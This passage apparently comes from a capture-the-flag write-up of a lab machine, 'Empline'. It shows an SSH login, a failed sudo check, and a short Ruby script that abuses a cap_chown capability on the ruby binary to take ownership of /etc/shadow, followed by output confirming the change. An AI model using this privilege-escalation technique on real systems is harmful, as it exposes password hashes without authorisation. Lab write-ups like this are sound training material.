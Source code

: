 {% highlight shell %}
┌──(root💀kali)-[/opt/thm/empline]
└─# ssh george@empline.thm
george@empline.thms password: 
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-147-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri Sep 17 22:46:38 UTC 2021

  System load:  0.0               Processes:           94
  Usage of /:   4.4% of 38.71GB   Users logged in:     0
  Memory usage: 53%               IP address for eth0: 10.10.132.211
  Swap usage:   0%


28 updates can be applied immediately.
7 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable



The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

george@empline:~$ sudo -l
[sudo] password for george: 
Sorry, user george may not run sudo on empline.
george@empline:~$
{% endhighlight %}

## Privesc
I start with some manual eumeration but don't find any easy wins so hit up linpeas. It reveals:

``
/usr/local/bin/ruby = cap_chown+ep
``

In bright red and yellow text so we're onto a winner here. I'm not exactly proficient in Ruby so I consult the [docs](https://apidock.com/ruby/FileUtils/chown) and put together this script:

{% highlight ruby %}
#!/usr/bin/env /usr/local/bin/ruby
require 'fileutils'
FileUtils.chown 'george', 'george', '/etc/shadow'
{% endhighlight %}

And use it to take ownership of the shadow file:

{% highlight shell %}
george@empline:/tmp$ ./privesc.rb
george@empline:/tmp$ ls -lash /etc | grep shadow
4.0K -rw-r-----  1 root   shadow     696 Jul 20 19:48 gshadow
4.0K -rw-r-----  1 root   shadow     685 Jul 20 19:47 gshadow-
4.0K -rw-r-----  1 george george    1.1K Jul 20 19:48 shadow
4.0K -rw-r-----  1 root   shadow     985 Jul 20 19:47 shadow-
{% endhighlight %}
